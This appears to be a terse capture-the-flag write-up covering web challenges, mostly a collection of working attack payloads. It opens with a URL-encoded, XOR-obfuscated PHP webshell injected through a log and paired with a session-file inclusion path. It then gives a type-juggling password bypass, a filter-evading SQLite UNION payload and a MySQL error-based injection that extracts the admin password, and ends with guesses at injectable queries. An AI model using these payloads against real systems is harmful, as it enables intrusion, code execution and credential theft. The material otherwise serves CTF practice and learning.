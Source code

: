 Find the

`%3C?php%20function%20m($l,$T=0){$K=date(%27Y-m-d%27);$_=strlen($l);$__=strlen($K);for($i=0;$i%3C$_;$i%2b%2b){for($j=0;$j%3C$__;%20$j%2b%2b){if($T){$l[$i]=$K[$j]^$l[$i];}else{$l[$i]=$l[$i]^$K[$j];}}}return%20$l;}%20m(%27bmha[tqp[gkjpajpw%27)(m(%27%2brev%2bsss%2blpih%2bqthke`w%2bmiecaw*tlt%27),m(%278;tlt$lae`av,%26LPPT%2b5*5$040$Jkp$Bkqj`%26-?w}wpai,%20[CAP_%26g%26Y-?%27));%20?%3E HTTP/1.1" 200 1098
min/?page=/var/lib/php/sessions/sess_ag4l8a5tbv8bkgqe9b9ull5732`

capture the out going request and change the `password=xx` to password[]=xx

## blind sql injection advanced

Solution in solverxx1.py

## baby-sqlite

- Admin was not inserted in the db upon creation.
- spaces, quotes, double quotes unavaiale
- `admin` cannot supplied no way concatinating the value :)
==> How to make union works then.
<https://sqlite.org/lang_select.html>

we can select-core ( view top diagram ) + UNION + select-core
select-core can be performed with values() syntax !
we convert 'admin' to ascii then concatinate it

**GETTING CHARACHTERS**

```py
string='admin'
array=[]
for s in string:
 x=f"char({ord(s)})"
 array.append(x)

print(array)
```

**Final Payload** `curl -X 'POST' -d payload URL`
`uid=xx&upw=xx&level=9/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))`

## error bassed sql injection

All the payloads for mysql gives a truncated result, the only one that worked was

`1'+Union+SELECT+1%2C+COUNT(*)%2C+CONCAT((SELECT+upw+from+user+where+uid%3D'admin')%2C0x3a%2CFLOOR(RAND(0)*2))+x+FROM+information_schema.tables+GROUP+BY+x%3B`

## tmitter

So after iterating through the webpage I found 3 requests to the server.

1. signin, I guess it's format `SELECT * from tmitter_user where id='$INSERT_HERE' and pw='$INSET_HERE';`
2. signup, I guess it's format `INSERT INTO tmitter_user (id,pw) values ('$INSERT_HERE','$INSERT_HERE');`
3. adding tmitter: `INSERT INTO ? ( ??? ) VALUES (?? )`
